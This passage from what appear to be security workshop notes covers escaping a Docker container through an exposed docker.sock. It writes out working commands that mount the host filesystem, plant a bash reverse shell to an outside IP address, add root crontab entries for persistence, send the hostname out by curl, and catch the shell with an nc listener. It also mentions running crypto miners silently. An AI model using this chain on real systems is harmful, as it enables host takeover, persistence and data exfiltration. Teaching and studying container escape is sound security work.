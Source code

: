 ```bash
find / -name docker.sock
apk add docker
```

We can run privileged containers, containers with hostpid, hostipc, etc. We can gain access to the host machine, run things around, run crypto miners silently in the background, and lot more. We can even leverage capablities like CAP_SYS_ADMIN, CAP_SYS_MODULE, CAP_SYS_RAWIO, CAP_NET_ADMIN, etc.

You can also use tools like `nsenter` to create namespaces in linux or even hook into one of the parent processes running on the host & break out of the container

```bash
which nsenter
```

How to know if we are inside a container or on a host machine?

```bash
ls -l /var/lib/docker
```

```bash
docker run --rm -it -v /:/abcd ubuntu bash
# ls -l /abcd/var/lib/docker
# hostname
```

Let's leverage the functionality of cronjob in linux to get a reverse shell. Few techniques to get a reverse shell are given here: https://highon.coffee/blog/reverse-shell-cheat-sheet/


![Reverse shell](https://miro.medium.com/max/1400/1*CyVqkmA7wLYaippCGRXW5w.jpeg)
Reference: https://systemweakness.com/a-persistent-reverse-shell-on-macos-40fb65b3dacf?gi=70e6704f4f9e

```bash
docker run --rm -it -v /:/abcd ubuntu bash
# ls -l /abcd/var/lib/docker
# hostname
# echo "bash -i >& /dev/tcp/18.141.250.7/8888 0>&1" > /abcd/tmp/run.sh
# chmod +x /abcd/tmp/run.sh
# echo "*  *    * * *   root    bash /tmp/run.sh" >> /abcd/etc/crontab
# echo '*  *    * * *   root    curl 18.141.250.7:8000/test/$(hostname)' >> /abcd/etc/crontab
```

On `18.141.250.7`, wait for incoming connection

```bash
nc -nlvp 8888
```

### Attack Mitre framework

![https://images.contentstack.io/v3/assets/blt300387d93dabf50e/blt79d91d9e7404f336/629d981961670f0fb5dd1161/MITTRE_ATTACK_Metric.png](https://images.contentstack.io/v3/assets/blt300387d93dabf50e/blt79d91d9e7404f336/629d981961670f0fb5dd1161/MITTRE_ATTACK_Metric.png)
Reference: https://www.weave.works/blog/mitre-attack-matrix-for-kubernetes

We cannot discuss all stages in one session. We will try to touch one topic from each category. But first we must learn about containers!
